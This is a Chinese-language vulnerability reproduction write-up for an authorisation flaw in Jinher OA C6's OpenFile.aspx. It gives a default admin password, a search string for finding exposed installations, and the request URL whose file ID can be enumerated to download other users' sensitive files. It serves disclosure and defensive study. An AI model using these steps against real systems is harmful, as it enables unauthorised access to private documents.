 # 金和OA C6 OpenFile.aspx 后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

<a-checkbox checked>金和OA C6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Jinher-OA"</a-checkbox></br>

## 漏洞复现

默认用户口令：admin/000000

登录后点击信息交流，发起协同页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-5.png)



上传附件并上传发送给目标，这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-6.png)



成功收到上传的附件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-7.png)



点击查看时抓包，发现一个带有文件ID的请求包



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-8.png)



返回了几个参数

```plain
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-9.png)



更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 `type参数`  需要为正确的文件后缀才可以访问

```plain
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-10.png)



这里更换一个普通用户测试是否可行，尝试遍历 id

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-12.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-11.png)



存在 `strFilePath参数` 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

`FileID 与 FileIDCode`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/jh-13.png)



于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限